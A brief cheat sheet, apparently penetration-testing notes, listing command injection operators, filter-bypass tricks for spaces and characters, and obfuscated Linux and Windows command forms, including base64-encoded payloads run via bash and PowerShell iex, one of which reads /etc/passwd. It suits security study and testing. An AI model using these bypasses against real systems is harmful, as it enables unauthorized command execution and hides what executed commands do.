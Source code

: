 Common Injection Operators
```bash
||
;
&
&&
``
\n
\t
\r
$(whoami)
```
Bypassing Space Filters
```bash
\t
\n
\r
+
%0a # new line
%20 # space
%09 # tabs
${IFS}
{ls,-la} # bash brace expansion
```
### Linux
PATH env 
```bash
echo ${PATH:0:1} # first character of PATH env = /
echo ${LS_COLORS:10:1} # ;
${HOME}
${PWD}
```
Bypassing commands
- '' & "" must be of even amount
```bash
w'h'o'am'i
w"h"o"a"mi
who$@ami
w\h\o\a\mi
wHoAmI
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(rev<<<'imaohw')
$(a="WhOaMi";printf %s "${a,,}")
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
### Windows
Path env
- Get-ChildItem Env: to find environment variables
```cmd
%HOMEPATH:~6,-11% // cmd
HOMEPATH[0] // powershell
PROGRAMFILES[10]
```
Bypassing commands
```cmd
who^ami
wHoAmI
iex "$('imaohw'[-1..-20] -join '')"
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```